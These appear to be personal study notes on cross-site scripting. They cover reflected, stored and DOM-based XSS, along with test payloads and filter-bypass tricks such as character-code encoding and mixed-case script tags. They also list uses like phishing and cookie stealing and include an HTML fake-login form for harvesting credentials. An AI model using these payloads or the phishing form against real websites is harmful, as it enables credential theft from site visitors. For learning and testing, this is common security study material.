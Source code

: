 XSS Study notes:

**Reflected XSS:**  
Injecting mal script into a searchbox or at the end of the URL. Think of it like throwing a ball against a wall and it bouncing back.

**Stored XSS:**  
This is when an injected script is stored in the website eg a guestbook or posting board. These hit everyone who reach the site.

**DOM:**  
Document object model EG you put in user and pass, they get loaded into the dom and checked - the page itself never loads the code thus stopping traditional XSS

AJAX = asynchronous JavaScript (they change their contents by manipulating areas within the document object model)

**Tests:**
`<script>alert('1234');</script>`  
`<h1><font color="#00FF00">I like turtles</font></h1> ` 

**Bypasses:**  
$ 1.) magic_quotes_gpc=ON bypass  
		Bypass this by converting your text to decimal characters and place them inside the java function: `String.fromCharCode()`  
			EG `<script>alert('1234');</script> = <script>alert(string.fromcharcode(49, 50, 51, 52));</script>`  
$ 2.) HEX encoding  
		you can encode your payload as HEX, I could not get this to work, however this apparently is a valid bypass  
$ 3.) Obfuscation  
		as a low level contrived example, some strings such as `"script","alert()","''"` as listed as bad words, so either sanitsed or
		or handled with exceptions. Low level obfuscation can bypass: `<sCrIpT>alert('turtles');</ScRiPt>` (I KNOW IT'S LAME)  
$ 4.) "Trying around"  
		Basically means just that, string different methods together, interupt search box HTML tags with `">` (this closes the tag)   
		
Stuff we can do?

$ 1.) Inject a Phishing script
$ 2.) Iframe Phishing
$ 3.) Redirict Phishing
$ 4.) Cookie stealing


$ 1.) Phishing script injection: Inject a 'user' and 'password' field in html  
$     (With the <html> and <body> tags), creating a false login field where the creds are harvested.
		<html><body><head><meta content="text/html; charset=utf-8"></meta></head><div style="text-align: center;">
		Phishingpage :``<br /><br/>Username :<br /> <input name="User" /><br />Password :<br />``  
		<input name="Password" type="password" /><br /><br /><input name="Valid" value="Ok !" type="submit" /><br /></form></div></body></html>

$ 2.) Iframe Phishing: inject a javascript code containing an
$     iframe where your phishing site is embeeded.
$     Obviously it needs to look just like the target site.
